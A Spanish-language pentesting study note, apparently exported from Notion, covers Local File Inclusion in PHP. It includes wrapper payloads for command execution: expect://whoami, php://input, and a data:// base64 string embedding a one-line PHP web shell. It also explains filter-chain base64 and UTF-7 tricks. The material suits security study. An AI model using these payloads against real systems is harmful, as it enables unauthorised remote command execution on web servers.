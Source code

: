 
![Untitled](Local%20File%20Inclusion%20(LFI)%20fe422edc5a864fb581eab947f892807a/Untitled%2017.png)

### Wrapper - Ejecución de comandos

```bash
# Ejemplo #1
?file=expect://whoami

# Ejemplo #2
?file=php://input # Y en el contenido se le ingresa el comando

# Ejemplo #3
?file=data://test:plain;base64,<cadena en base64>
# Una cadena puede ser: "<?php system($_GET['cmd']); ?>" en base64

# Ejemplo #4
```

Ejemplo #2:

Con una petición por POST, se le ingresa el wrapper y en el contenido se el ingresa el comando:

![Untitled](Local%20File%20Inclusion%20(LFI)%20fe422edc5a864fb581eab947f892807a/Untitled%2018.png)

Si no funciona, se debe editar el archivo “nano /etc/php/8.1/apache2/php.ini” y poner en “On” el “allow_url_include”

Ejemplo #3

![Untitled](Local%20File%20Inclusion%20(LFI)%20fe422edc5a864fb581eab947f892807a/Untitled%2019.png)

### Wrapper - PHP Filter Chain Manual

En php, hay una característica curiosa la cual es que al codificar una cadena en base64 con “base64_encode()”, si al codificado, se le añaden cadenas incorrectas, el descodificado seguirá dando el mismo resultado:

![Untitled](Local%20File%20Inclusion%20(LFI)%20fe422edc5a864fb581eab947f892807a/Untitled%2020.png)

Sin embargo, esto no sucede igual cuando se utiliza el wrapper para codificar en base64 ya que da error cuando se le añade “=” al codificado:

![Untitled](Local%20File%20Inclusion%20(LFI)%20fe422edc5a864fb581eab947f892807a/Untitled%2021.png)

Esto se puede solucionar convirtiendo la cadena de UTF-8 a UTF-7 antes de decodificarla:

![Esta vez se pasó la cadena “prueba” a base64 y se le añadió “==” al final](Local%20File%20Inclusion%20(LFI)%20fe422edc5a864fb581eab947f892807a/Untitled%2022.png)

Esta vez se pasó la cadena “prueba” a base64 y se le añadió “==” al final

Si se pasa a hexadecimal con xxd, se vería de la siguiente manera:

![Untitled](Local%20File%20Inclusion%20(LFI)%20fe422edc5a864fb581eab947f892807a/Untitled%2023.png)
